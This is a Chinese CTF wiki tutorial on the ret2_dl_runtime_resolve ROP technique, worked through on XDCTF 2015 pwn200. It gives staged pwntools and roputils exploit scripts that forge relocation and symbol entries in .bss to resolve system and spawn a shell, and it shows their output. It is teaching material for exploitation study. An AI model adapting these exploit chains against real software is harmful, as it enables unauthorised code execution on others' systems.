





[EN](./advanced-rop.md) | [ZH](./advanced-rop-zh.md)

# 高级ROP

高级ROP其实和一般的ROP基本一样，其主要的区别在于它利用了一些更加底层的原理。

## ret2_dl_runtime_resolve

### 原理

要想弄懂这个ROP利用技巧，需要首先理解ELF文件的基本结构，以及动态链接的基本过程，请参考executable中elf对应的介绍。这里我只给出相应的利用方式。

我们知道在linux中是利用_dl_runtime_resolve(link_map_obj, reloc_index)来对动态链接的函数进行重定位的。那么如果我们可以控制相应的参数以及其对应地址的内容是不是就可以控制解析的函数了呢？答案是肯定的。具体利用方式如下

1.  控制程序执行dl_resolve函数
    -   给定Link_map以及index两个参数。
    -   当然我们可以直接给定 plt0对应的汇编代码，这时，我们就只需要一个index就足够了。
2.  控制index的大小，以便于指向自己所控制的区域，从而伪造一个指定的重定位表项。
3.  伪造重定位表项，使得重定位表项所指的符号也在自己可以控制的范围内。
4.  伪造符号内容，使得符号对应的名称也在自己可以控制的范围内。

**此外，这个攻击成功的很必要的条件**

- **dl_resolve函数不会检查对应的符号是否越界，它只会根据我们所给定的数据来执行。**
- **dl_resolve函数最后的解析根本上依赖于所给定的字符串。**

注意：

-   符号版本信息
    -   最好使得ndx = VERSYM[ (reloc->r_info) >> 8] 的值为0，以便于防止找不到的情况。
-   重定位表项
    -   r_offset必须是可写的，因为当解析完函数后，必须把相应函数的地址填入到对应的地址。

### 攻击条件

说了这么多，这个利用技巧其实还是ROP，同样可以绕过NX和ASLR保护。但是，这个攻击更适于一些比较简单的栈溢出的情况，但同时又难以泄露获取更多信息的情况下。

### 示例

这里以XDCTF 2015的pwn200为例。主要参考

1. http://pwn4.fun/2016/11/09/Return-to-dl-resolve/ ，深入浅出。
2. https://www.math1as.com/index.php/archives/341/

首先我们可以编译下ret2dlresolve文件夹下的源文件main.c文件得到二进制文件，这里取消了Canary保护。

```shell
➜  ret2dlresolve git:(master) ✗ gcc main.c -m32 -fno-stack-protector -o main
```

在下面的讲解过程中，我会按照以两种不同的方法来进行讲解。其中第一种方法比较麻烦，但是可以仔细理解ret2dlresolve的原理，第二种方法则是直接使用已有的工具，相对容易一点。

1.  利用正常的代码来使用该技巧从而获取shell。
    -   stage 1 测试控制程序执行write函数的效果。
    -   stage 2 测试控制程序执行dl_resolve函数，并且相应参数指向正常write函数的plt时的执行效果。
    -   stage 3 测试控制程序执行dl_resolve函数，并且相应参数指向伪造的write函数的plt时的执行效果。
2.  利用roputils中已经集成好的工具来实现攻击，从而获取shell。

#### 正常攻击

显然我们程序有一个很明显的栈溢出漏洞的。这题我们不考虑我们有libc的情况。我们可以很容易的分析出偏移为112。

```asm
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
[+] Saved as '$_gef0'
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main
Welcome to XDCTF2015~!
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ registers ]────
$eax   : 0x000000c9
$ebx   : 0x00000000
$ecx   : 0xffffcc6c  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$edx   : 0x00000100
$esp   : 0xffffcce0  →  "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"
$ebp   : 0x62616163 ("caab"?)
$esi   : 0xf7fac000  →  0x001b1db0
$edi   : 0xffffcd50  →  0xffffcd70  →  0x00000001
$eip   : 0x62616164 ("daab"?)
$cs    : 0x00000023
$ss    : 0x0000002b
$ds    : 0x0000002b
$es    : 0x0000002b
$fs    : 0x00000000
$gs    : 0x00000063
$eflags: [carry PARITY adjust zero SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386 ]────
[!] Cannot disassemble from $PC
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ stack ]────
['0xffffcce0', 'l8']
8
0xffffcce0│+0x00: "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"	 ← $esp
0xffffcce4│+0x04: "faabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabra[...]"
0xffffcce8│+0x08: "gaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsa[...]"
0xffffccec│+0x0c: "haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabta[...]"
0xffffccf0│+0x10: "iaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabua[...]"
0xffffccf4│+0x14: "jaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabva[...]"
0xffffccf8│+0x18: "kaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwa[...]"
0xffffccfc│+0x1c: "laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxa[...]"
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  pattern search
[!] Syntax
pattern search PATTERN [SIZE]
gef➤  pattern search 0x62616164
[+] Searching '0x62616164'
[+] Found at offset 112 (little-endian search) likely
```

##### stage 1

这里我们的主要目的是控制程序执行write函数，虽然我们可以控制程序直接执行write函数。但是这里我们采用一个更加复杂的办法，即使用栈迁移的技巧，将栈迁移到bss段来控制write函数。即主要分为两步

1. 将栈迁移到bss段。
2. 控制write函数输出相应字符串。

这里主要使用了pwntools中的ROP模块。具体代码如下

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

## stack pivoting to bss segment
## new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
### padding
rop.raw('a' * offset)
### read 100 byte to base_stage
rop.read(0, base_stage, 100)
### stack pivoting, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

## write cmd="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"
rop.write(1, base_stage + 80, len(sh))
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()
```

结果如下

```shell
➜  ret2dlresolve git:(master) ✗ python stage1.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './main': pid 120912
[*] Loaded cached gadgets for './main'
[*] Switching to interactive mode
/bin/sh[*] Got EOF while reading in interactive

```

##### stage 2

在这一阶段，我们将会利用dlresolve相关的知识来控制程序执行write函数。这里我们主要是利用plt[0]中的相关指令，即push linkmap以及跳转到dl_resolve函数中解析的指令。此外，我们还得单独提供一个write重定位项在plt表中的偏移。

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

## stack pivoting to bss segment
## new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
### padding
rop.raw('a' * offset)
### read 100 byte to base_stage
rop.read(0, base_stage, 100)
### stack pivoting, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

## write cmd="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"

plt0 = elf.get_section_by_name('.plt').header.sh_addr
write_index = (elf.plt['write'] - plt0) / 16 - 1
write_index *= 8
rop.raw(plt0)
rop.raw(write_index)
## fake ret addr of write
rop.raw('bbbb')
rop.raw(1)
rop.raw(base_stage + 80)
rop.raw(len(sh))
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()

```

效果如下，仍然输出了cmd对应的字符串。

```shell
➜  ret2dlresolve git:(master) ✗ python stage2.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './main': pid 123406
[*] Loaded cached gadgets for './main'
[*] Switching to interactive mode
/bin/sh[*] Got EOF while reading in interactive
```

##### stage 3

这一次，我们同样控制dl_resolve函数中的index_offset参数，不过这次控制其指向我们伪造的write重定位项。

鉴于pwntools本身并不支持对重定位表项的信息的获取。这里我们手动看一下

```shell
➜  ret2dlresolve git:(master) ✗ readelf -r main

重定位节 '.rel.dyn' 位于偏移量 0x318 含有 3 个条目：
 偏移量     信息    类型              符号值      符号名称
08049ffc  00000306 R_386_GLOB_DAT    00000000   __gmon_start__
0804a040  00000905 R_386_COPY        0804a040   stdin@GLIBC_2.0
0804a044  00000705 R_386_COPY        0804a044   stdout@GLIBC_2.0

重定位节 '.rel.plt' 位于偏移量 0x330 含有 5 个条目：
 偏移量     信息    类型              符号值      符号名称
0804a00c  00000107 R_386_JUMP_SLOT   00000000   setbuf@GLIBC_2.0
0804a010  00000207 R_386_JUMP_SLOT   00000000   read@GLIBC_2.0
0804a014  00000407 R_386_JUMP_SLOT   00000000   strlen@GLIBC_2.0
0804a018  00000507 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
0804a01c  00000607 R_386_JUMP_SLOT   00000000   write@GLIBC_2.0
```

可以看出write的重定表项的r_offset=0x0804a01c，r_info=0x00000607。具体代码如下

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

## stack pivoting to bss segment
## new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
### padding
rop.raw('a' * offset)
### read 100 byte to base_stage
rop.read(0, base_stage, 100)
### stack pivoting, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

## write sh="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
## making base_stage+24 ---> fake reloc
index_offset = base_stage + 24 - rel_plt
write_got = elf.got['write']
r_info = 0x607

rop.raw(plt0)
rop.raw(index_offset)
## fake ret addr of write
rop.raw('bbbb')
rop.raw(1)
rop.raw(base_stage + 80)
rop.raw(len(sh))
rop.raw(write_got)  # fake reloc
rop.raw(r_info)
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()
```

最后结果如下，这次我们在bss段伪造了一个假的write的重定位项，仍然输出了对应的字符串。

```shell
➜  ret2dlresolve git:(master) ✗ python stage3.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './main': pid 126063
[*] Loaded cached gadgets for './main'
[*] Switching to interactive mode
/bin/sh[*] Got EOF while reading in interactive
```

##### stage 4

stage3中，我们控制了重定位表项，但是重定位表项的内容与write原来的重定位表项一致，这次，我们将构造属于我们自己的重定位表项，并且伪造该表项对应的符号。首先，我们根据write的重定位表项的r_info=0x607可以知道，write对应的符号在符号表的下标为0x607>>8=0x6。因此，我们知道write对应的符号地址为0x8048238。

```shell
➜  ret2dlresolve git:(master) ✗ objdump -s -EL -j  .dynsym main

main：     文件格式 elf32-i386

Contents of section .dynsym:
 80481d8 00000000 00000000 00000000 00000000  ................
 80481e8 33000000 00000000 00000000 12000000  3...............
 80481f8 27000000 00000000 00000000 12000000  '...............
 8048208 52000000 00000000 00000000 20000000  R........... ...
 8048218 20000000 00000000 00000000 12000000   ...............
 8048228 3a000000 00000000 00000000 12000000  :...............
 8048238 4c000000 00000000 00000000 12000000  L...............
 8048248 2c000000 44a00408 04000000 11001a00  ,...D...........
 8048258 0b000000 3c860408 04000000 11001000  ....<...........
 8048268 1a000000 40a00408 04000000 11001a00  ....@...........
```

这里给出的其实是小端模式，因此我们需要手工转换。此外，每个符号占用的大小为16个字节。

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

## stack pivoting to bss segment
## new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
### padding
rop.raw('a' * offset)
### read 100 byte to base_stage
rop.read(0, base_stage, 100)
### stack pivoting, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

## write sh="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

### making fake write symbol
fake_sym_addr = base_stage + 32
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
fake_sym_addr = fake_sym_addr + align
index_dynsym = (
    fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
fake_write_sym = flat([0x4c, 0, 0, 0x12])

### making fake write relocation

## making base_stage+24 ---> fake reloc
index_offset = base_stage + 24 - rel_plt
write_got = elf.got['write']
r_info = (index_dynsym << 8) | 0x7
fake_write_reloc = flat([write_got, r_info])

rop.raw(plt0)
rop.raw(index_offset)
## fake ret addr of write
rop.raw('bbbb')
rop.raw(1)
rop.raw(base_stage + 80)
rop.raw(len(sh))
rop.raw(fake_write_reloc)  # fake write reloc
rop.raw('a' * align)  # padding
rop.raw(fake_write_sym)  # fake write symbol
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()
```

具体效果如下

```shell
➜  ret2dlresolve git:(master) ✗ python stage4.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './main': pid 128795
[*] Loaded cached gadgets for './main'
[*] Switching to interactive mode
/bin/sh[*] Got EOF while reading in interactive

```

##### stage 5

这一阶段，我们将在阶段4的基础上，我们进一步使得write符号的st_name指向我们自己构造的字符串。

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

## stack pivoting to bss segment
## new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
### padding
rop.raw('a' * offset)
### read 100 byte to base_stage
rop.read(0, base_stage, 100)
### stack pivoting, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

## write sh="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

### making fake write symbol
fake_sym_addr = base_stage + 32
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
fake_sym_addr = fake_sym_addr + align
index_dynsym = (
    fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
## plus 10 since the size of Elf32_Sym is 16.
st_name = fake_sym_addr + 0x10 - dynstr
fake_write_sym = flat([st_name, 0, 0, 0x12])

### making fake write relocation

## making base_stage+24 ---> fake reloc
index_offset = base_stage + 24 - rel_plt
write_got = elf.got['write']
r_info = (index_dynsym << 8) | 0x7
fake_write_reloc = flat([write_got, r_info])

rop.raw(plt0)
rop.raw(index_offset)
## fake ret addr of write
rop.raw('bbbb')
rop.raw(1)
rop.raw(base_stage + 80)
rop.raw(len(sh))
rop.raw(fake_write_reloc)  # fake write reloc
rop.raw('a' * align)  # padding
rop.raw(fake_write_sym)  # fake write symbol
rop.raw('write\x00')  # there must be a \x00 to mark the end of string
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()
```

效果如下

```shell
➜  ret2dlresolve git:(master) ✗ python stage5.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './main': pid 129249
[*] Loaded cached gadgets for './main'
[*] Switching to interactive mode
/bin/sh[*] Got EOF while reading in interactive
```

##### stage 6

这一阶段，我们只需要将原先的write字符串修改为system字符串，同时修改write的参数为system的参数即可获取shell。这是因为，dl_resolve最终依赖的是我们所给定的字符串，即使我们给了一个假的字符串它仍然会去解析并执行。具体代码如下

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

## stack pivoting to bss segment
## new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
### padding
rop.raw('a' * offset)
### read 100 byte to base_stage
rop.read(0, base_stage, 100)
### stack pivoting, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

## write sh="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

### making fake write symbol
fake_sym_addr = base_stage + 32
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
fake_sym_addr = fake_sym_addr + align
index_dynsym = (
    fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
## plus 10 since the size of Elf32_Sym is 16.
st_name = fake_sym_addr + 0x10 - dynstr
fake_write_sym = flat([st_name, 0, 0, 0x12])

### making fake write relocation

## making base_stage+24 ---> fake reloc
index_offset = base_stage + 24 - rel_plt
write_got = elf.got['write']
r_info = (index_dynsym << 8) | 0x7
fake_write_reloc = flat([write_got, r_info])

rop.raw(plt0)
rop.raw(index_offset)
## fake ret addr of write
rop.raw('bbbb')
rop.raw(base_stage + 82)
rop.raw('bbbb')
rop.raw('bbbb')
rop.raw(fake_write_reloc)  # fake write reloc
rop.raw('a' * align)  # padding
rop.raw(fake_write_sym)  # fake write symbol
rop.raw('system\x00')  # there must be a \x00 to mark the end of string
rop.raw('a' * (80 - len(rop.chain())))
print rop.dump()
print len(rop.chain())
rop.raw(sh + '\x00')
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()
```

需要注意的是，这里我'/bin/sh'的偏移我修改为了82，这是因为pwntools中它会自动帮你对齐字符串。。。下面这一行说明了问题。

```
0x0050:           'aara'
```

效果如下

```shell
➜  ret2dlresolve git:(master) ✗ python stage6.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './main': pid 130415
[*] Loaded cached gadgets for './main'
0x0000:        0x8048380
0x0004:           0x2528
0x0008:           'bbbb' 'bbbb'
0x000c:        0x804a892
0x0010:           'bbbb' 'bbbb'
0x0014:           'bbbb' 'bbbb'
0x0018: '\x1c\xa0\x04\x08' '\x1c\xa0\x04\x08\x07i\x02\x00'
0x001c:  '\x07i\x02\x00'
0x0020:           'aaaa' 'aaaaaaaa'
0x0024:           'aaaa'
0x0028:  '\x00&\x00\x00' '\x00&\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x12\x00\x00\x00'
0x002c: '\x00\x00\x00\x00'
0x0030: '\x00\x00\x00\x00'
0x0034: '\x12\x00\x00\x00'
0x0038:           'syst' 'system\x00'
0x003c:        'em\x00o'
0x0040:             'aa'
0x0044:           'aaaa' 'aaaaaaaaaaaaaa'
0x0048:           'aaaa'
0x004c:           'aaaa'
0x0050:           'aara'
82
[*] Switching to interactive mode
/bin/sh: 1: xa: not found
$ ls
core  main.c     stage2.py  stage4.py  stage6.py
main  stage1.py  stage3.py  stage5.py
```

#### 工具攻击

根据上面的介绍，我们应该很容易可以理解这个攻击了。下面我们直接使用roputil来进行攻击。代码如下

```python
from roputils import *
from pwn import process
from pwn import gdb
from pwn import context
r = process('./main')
context.log_level = 'debug'
r.recv()

rop = ROP('./main')
offset = 112
bss_base = rop.section('.bss')
buf = rop.fill(offset)

buf += rop.call('read', 0, bss_base, 100)
## used to call dl_Resolve()
buf += rop.dl_resolve_call(bss_base + 20, bss_base)
r.send(buf)

buf = rop.string('/bin/sh')
buf += rop.fill(20, buf)
## used to make faking data, such relocation, Symbol, Str
buf += rop.dl_resolve_data(bss_base + 20, 'system')
buf += rop.fill(100, buf)
r.send(buf)
r.interactive()
```

关于dl_resolve_call与dl_resolve_data的具体细节请参考roputils.py的源码，比较容易理解，需要注意的是，dl_resolve执行完之后也是需要有对应的返回地址的。

效果如下

```shell
➜  ret2dlresolve git:(master) ✗ python roptool.py
[+] Starting local process './main': pid 6114
[DEBUG] Received 0x17 bytes:
    'Welcome to XDCTF2015~!\n'
[DEBUG] Sent 0x94 bytes:
    00000000  46 4c 68 78  52 36 67 6e  65 47 53 58  71 77 51 49  │FLhx│R6gn│eGSX│qwQI│
    00000010  32 43 6c 49  77 76 51 33  47 49 4a 59  50 74 6c 38  │2ClI│wvQ3│GIJY│Ptl8│
    00000020  57 54 68 4a  63 48 39 62  46 55 52 58  50 73 38 64  │WThJ│cH9b│FURX│Ps8d│
    00000030  72 4c 38 63  50 79 37 73  55 45 7a 32  6f 59 5a 42  │rL8c│Py7s│UEz2│oYZB│
    00000040  76 59 32 43  74 75 77 6f  70 56 61 44  6a 73 35 6b  │vY2C│tuwo│pVaD│js5k│
    00000050  41 77 78 77  49 72 7a 49  70 4d 31 67  52 6f 44 6f  │Awxw│IrzI│pM1g│RoDo│
    00000060  43 44 43 6e  45 31 50 48  53 73 64 30  6d 54 7a 5a  │CDCn│E1PH│Ssd0│mTzZ│
    00000070  a0 83 04 08  19 86 04 08  00 00 00 00  40 a0 04 08  │····│····│····│@···│
    00000080  64 00 00 00  80 83 04 08  28 1d 00 00  79 83 04 08  │d···│····│(···│y···│
    00000090  40 a0 04 08                                         │@···││
    00000094
[DEBUG] Sent 0x64 bytes:
    00000000  2f 62 69 6e  2f 73 68 00  73 52 46 66  57 43 59 52  │/bin│/sh·│sRFf│WCYR│
    00000010  66 4c 35 52  78 49 4c 53  54 a0 04 08  07 e9 01 00  │fL5R│xILS│T···│····│
    00000020  6e 6b 45 32  52 76 73 6c  00 1e 00 00  00 00 00 00  │nkE2│Rvsl│····│····│
    00000030  00 00 00 00  12 00 00 00  73 79 73 74  65 6d 00 74  │····│····│syst│em·t│
    00000040  5a 4f 4e 6c  6c 73 4b 5a  76 53 48 6e  38 37 49 47  │ZONl│lsKZ│vSHn│87IG│
    00000050  69 49 52 6c  50 44 38 67  45 77 75 6c  72 47 6f 67  │iIRl│PD8g│Ewul│rGog│
    00000060  55 41 52 4f                                         │UARO││
    00000064
[*] Switching to interactive mode
$ ls
